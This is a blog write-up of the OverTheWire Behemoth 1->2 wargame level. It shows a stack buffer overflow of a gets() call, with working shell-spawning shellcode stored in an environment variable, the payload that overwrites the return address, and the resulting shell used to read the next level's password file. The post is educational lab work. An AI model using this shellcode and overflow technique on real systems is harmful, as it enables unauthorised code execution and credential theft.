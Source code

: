 ```yaml
---
layout:     post
title:      "Overthewire.org - Behemoth 1 -> 2"
subtitle:   "Write-Up"
date:       2017-04-02 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```

<h1>Introduction</h1>

<p>Today we're going to attack another reverse engineering challenge from <b>Behemoth</b> series, to improve our knowledge in reverse engineering.  </p>

<h1>Challenge</h1>

<p>This one seems to behave quite similar as the <b>behemoth0</b> level, but unluckily we can't view the password like in the previous one. Let's dissasemble the binary. </p>

{% highlight asm %}
(gdb) disas main
Dump of assembler code for function main:
   0x0804845d <+0>:	push   %ebp
   0x0804845e <+1>:	mov    %esp,%ebp
   0x08048460 <+3>:	and    $0xfffffff0,%esp
   0x08048463 <+6>:	sub    $0x60,%esp
   0x08048466 <+9>:	movl   $0x8048530,(%esp)
   0x0804846d <+16>:	call   0x8048310 <printf@plt>
   0x08048472 <+21>:	lea    0x1d(%esp),%eax
   0x08048476 <+25>:	mov    %eax,(%esp)
   0x08048479 <+28>:	call   0x8048320 <gets@plt>
   0x0804847e <+33>:	movl   $0x804853c,(%esp)
   0x08048485 <+40>:	call   0x8048330 <puts@plt>
   0x0804848a <+45>:	mov    $0x0,%eax
   0x0804848f <+50>:	leave  
   0x08048490 <+51>:	ret    
End of assembler dump.
{% endhighlight %}

<p>Hmm, we have <b>printf</b>, <b>gets</b> and <b>puts</b> function. We will have to somehow exploit the <b>gets</b> function, by overflowing an buffer and then possibly we will be able to spawn a shell. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ python -c 'print "A"*200' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
{% endhighlight %}

<p>Great, now we have something to focus on. This time, I wanted to find an offset not by brute forcing (also known as guessing), but by running <b>pattern_offset.rb</b> on the value in <b>EIP</b> - which resulted in number <b>79</b>. But how can we store the shellcode, since nothing is actually stored in the binary?  </p>

<p>In one of the <b>Narnia</b> levels, we used enviromental variable as the way to store the shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ export EGG=$(python -c 'print "\x90"*100+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
{% endhighlight %}

<p>Now we can use a tool like <a href="https://github.com/Partyschaum/haxe/blob/master/getenvaddr.c"><b>getenvaddr</b></a> to get the address of the enviromental variable <b>EGG</b>. </p>

{% highlight bash %}
behemoth1@melinda:/tmp$ mkdir muuuuu
behemoth1@melinda:/tmp$ cd muuuuu
behemoth1@melinda:/tmp/muuuuu$
behemoth1@melinda:/tmp/muuuuu$ touch getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ nano getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ gcc getenvaddr.c -o getenvaddr
behemoth1@melinda:/tmp/muuuuu$ ./getenvaddr EGG /behemoth/behemoth1
EGG will be at 0x7fffffffe8ac
behemoth1@melinda:/tmp/muuuuu$
{% endhighlight %}

<p>Unluckily it didn't seem to work, so I had to come up with another solution, using <b>gdb</b>. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ gdb behemoth1
(gdb) break *0x08048479
Breakpoint 1 at 0x8048479
(gdb) run
Starting program: /games/behemoth/behemoth1

Breakpoint 1, 0x08048479 in main ()
(gdb) x/s *((char **)environ)
0xffffd828:	"XDG_SESSION_ID=478012"
(gdb) x/s *((char **)environ+1)
0xffffd83e:	"SHELL=/bin/bash"
(gdb) x/s *((char **)environ+2)
0xffffd84e:	"TERM=xterm-256color"
(gdb) x/s *((char **)environ+3)
0xffffd862:	"SSH_CLIENT=89.64.16.127 33128 22"
(gdb) x/s *((char **)environ+4)
0xffffd883:	"SSH_TTY=/dev/pts/12"
(gdb) x/s *((char **)environ+5)
0xffffd897:	"LC_ALL=C"
(gdb) x/s *((char **)environ+6)
0xffffd8a0:	"EGG=", '\220' <repeats 100 times>, "\061\333\215C\027\231\315\200\061\311Qhn/shh//bi\215A\v\211\343\315\200"
{% endhighlight %}

<p>Great, now we have to only point the address to our shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$  python -c 'print "A"*79+"\xb0\xd8\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
behemoth1@melinda:/behemoth$ (python -c 'print "A"*79+"\xb0\xd8\xff\xff"';cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
*******
{% endhighlight %}

<p>As you may know, the first try didn't work because the shellcode opened the shell without any arguments, resulting in immediate close. Adding <b>cat - </b> allowed us to keep the shell open, and view the password. </p>

<h1>Conclusion</h1>
<p>Fun as always, and very educational. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>
<p>I would also like to point out that if you're thinking about starting journey with CTF challenges <a href="https://picoctf.com/"><b>PicoCTF</b></a> is running now, with a lot of great challenges. Check that out if you're interested!</p>

<p>~ Stay safe! </p>
